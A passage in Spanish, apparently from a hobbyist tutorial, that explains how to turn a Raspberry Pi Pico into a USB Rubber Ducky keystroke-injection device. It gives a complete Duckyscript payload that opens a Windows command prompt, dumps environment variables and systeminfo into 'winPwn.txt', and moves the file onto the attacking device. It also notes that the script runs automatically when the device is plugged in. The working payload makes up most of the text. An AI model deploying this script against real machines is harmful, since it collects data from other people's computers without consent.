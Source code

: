 En este enlace es posible crear tus propios [Payloads](https://ducktoolkit.com/encode), incluso en el mismo bloc de notas puedes programar tus scripts.

Si quieres más información para entender este lenguaje, es bastante cómodo y en este enlace tienes la [información](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)

Por mi parte les dejo un `script` para almacenar información general de un dispositivo en nuestro dispositivo, este script debe ser guardado en el archivo `payload.dd`

```bash
DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 500
STRING echo [*] Obteniendo datos del sistema ... >> winPwn.txt
ENTER
DELAY 200
STRING set >> winPwn.txt
ENTER
STRING cls
ENTER
DELAY 200
STRING echo [*] Obteniendo informacion adicional ... >> winPwn.txt
ENTER
DELAY 200
STRING systeminfo >> winPwn.txt
ENTER
DELAY 800
STRING cls
ENTER
STRING echo [*] Informacion capturada con exito! >> winPwn.txt
ENTER
DELAY 200
STRING move winPwn.txt D:\winPwn.txt
ENTER
DELAY 300
STRING exit
ENTER
```

Finalmente desconectamos la Raspberry y ya está lista para el uso que deseamos, al conectarla en un dispositivo siempre y cuando todo este correcto, en este caso obtenemos la información de un dispositivo almacenado en nuestro dispositivo.

<p style="text-align: center;">
<img src="/assets/images/raspberryducky/15-pico.png">
</p>

## RECOMENDACION

Debes tener en cuenta que en el momento en que tengas el script configurado en el archivo `payload.dd`, si la Raspberry no se encuentra en modo de configuración, se reiniciara y automaticamente hace la ejecucion del script definido anteriormente.
